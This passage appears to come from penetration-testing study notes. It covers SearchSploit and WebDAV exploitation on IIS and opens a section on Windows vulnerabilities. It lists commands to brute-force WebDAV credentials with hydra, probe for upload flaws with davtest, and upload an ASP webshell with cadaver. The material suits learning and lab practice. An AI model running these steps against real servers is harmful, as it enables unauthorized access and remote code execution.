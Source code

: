 ```

msf5 > analyze
```

- **Using SearchSploit:**
    

```
searchsploit "name_of_service"
```

** WebDAV Vulnerabilities **

- **Overview:**
    
    - IIS is a proprietary extensible web server software developed by Microsoft for use with the NT family. It can be used to host web applications and provides administrators with a GUI for managing websites. It supports both static and dynamic content (ASP.NET, PHP).
        
    - WebDAV is a set of HTTP extensions that allow users to collaboratively edit and manage files on remote web servers. It runs on top of IIS.
        
- **Exploitation:**
    
    1. Identify whether WebDAV has been configured to run on the IIS web server.
        
    2. Perform a brute-force attack on the WebDAV server to identify valid credentials.
        
    3. Once authenticated, upload a malicious `.asp` payload to execute code or gain a reverse shell.
        
- **Tools:** davtest, cadaver
    

```
nmap -sV -p 80 --script=http-enum TargetIP@ # enumerate directories; can reveal WebDAV directory

hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords TargetIP@ http-get /webdav/ # brute-force WebDAV credentials

davtest -auth username:password -url http://TargetIP@/webdav # test for vulnerabilities (e.g., file upload)

cadaver http://TargetIP@/webdav # pseudo shell to interact with WebDAV
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp # upload a webshell to the WebDAV directory
```

** Vulnerability Assessment **

- **Overview of Windows Vulnerabilities:**
    
    - Windows operating systems have been developed in the C programming language. By default, Windows is not configured to run securely and requires proactive implementation of security practices to ensure safe operation. Newly discovered vulnerabilities are not immediately patched by Microsoft, and due to the fragmented structure of the Windows OS, many vulnerabilities remain unpatched.
        
    - Types of Windows Vulnerabilities:
        
        - Information Disclosure
            
        - Buffer Overflow
            